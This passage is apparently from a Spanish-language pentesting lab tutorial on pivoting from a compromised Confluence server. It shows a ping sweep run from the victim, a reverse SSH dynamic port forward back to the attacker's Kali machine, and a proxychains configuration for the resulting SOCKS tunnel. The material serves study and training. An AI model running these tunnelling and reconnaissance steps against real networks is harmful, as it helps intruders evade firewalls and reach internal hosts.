 Vamos a exponer un ejemplo planteando otro caso. 

Supongamos que de nuevo hemos ganado acceso sobre la CONFLUENCE01 a través de un epxloit y también sabemos que esta máquina está protegida por un firewall. 

Nuestro primer pensamiento en esta posición debería ser que el firewall, además de otros puertos, puede estar tapando otros hosts expuestos en la misma red. Por tanto, nos interesa escanear la red desde la máquina asaltada:

```
confluence@confluence01:/opt/atlassian/confluence/bin$ for i in $(seq 1 254); do ping -c1 192.168.212.$i| grep "1 received" -C4; done
PING 192.168.212.63 (192.168.212.63) 56(84) bytes of data.
64 bytes from 192.168.212.63: icmp_seq=1 ttl=64 time=0.022 ms

--- 192.168.212.63 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.022/0.022/0.022/0.000 ms
```

Aunque el escáner hecho con ping haya fallado esto no es concluyente porque puede ser que una máquina levantada en la red no responda a los paquetes ping.

Así, lo que hacemos es un *remote dynamic port forwarding*. El comando es similar al *remote port forwarding* solo que en lugar de pasar como argumento dos sockets (de escucha y de desvío como en el caso anterior) sólo pasaremos un puerto que será el puerto de escucha del SocksProxy en la máquina Kali.

Así, en nuestra máquina Kali iniciamos el servicio ssh:

```
kali@kali:~$ sudo systemctl start ssh          
[sudo] password for kali: 
                   
```

Y seguidamente lanzamos el comando 

```
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 9998 kali@192.168.45.197
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.45.197 (192.168.45.197)' can't be established.
ECDSA key fingerprint is SHA256:lO9h0Bs6EiPc9FhxTikOYiKkSPArf1E0FxY7uFgrHss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.45.197's password: 
```

Modificamos el fichero de configuración de proxychains con la ip y puerto de escucha :

```
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 9998
```
